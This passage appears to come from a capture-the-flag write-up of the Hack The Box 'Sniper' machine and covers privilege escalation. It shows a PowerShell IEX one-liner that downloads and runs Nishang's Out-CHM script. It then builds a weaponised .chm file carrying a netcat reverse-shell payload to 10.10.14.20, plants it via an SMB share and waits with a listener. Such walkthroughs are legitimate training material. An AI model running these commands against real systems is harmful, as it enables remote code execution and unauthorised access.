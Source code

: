 Once in the powershell we can import the script with:

```powershell
IEX(New-Object Net.WebClient).downloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1")
```

The use of Out-CHM is very simple we need to pass the Payload which are going to execute in the remote machine and the path of the HTML Help Workshop (If you don’t have it you can install it from [here](http://web.archive.org/web/20160201063255/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe)).

We are going to use the following payload to establish a reverse shell with the victim

```powershell
Out-CHM -Payload "\Docs\nc.exe -e cmd 10.10.14.20 4443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Now we have a weaponoized .chm named doc.chm in our VM, only lefts to put it in the Docs directory of the remote machine. I moved first the file to my smb share and performed the next command:

```powershell
copy \\10.10.14.20\smbFolder\doc.chm C:\Docs
```

We need to copy the nc.exe binary from or samba share to the remote machine to make sure it works.

```powershell
copy \\10.10.14.20\smbFolder\nc.exe C:\Docs
```

Only rest put a listener and wait to the CEO to open my malicious file.

```powershell
nc -lv 4443
```

![Untitled](/HTB/sniper-22.png)

We have owned the system, let’s cat the **root’s flag.**

![Untitled](/HTB/sniper-23.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I learned how I can perform a smb RFI attack to gain RCE in a windows machine and to create weaponized .chm to perform a privesc.
    
- Were there any novel tools or techniques employed?
    
    I discovered a new technique called user pivoting which helps you to invoke commands with the user credentials.

**Thank you for reading, and happy hacking! 😄**
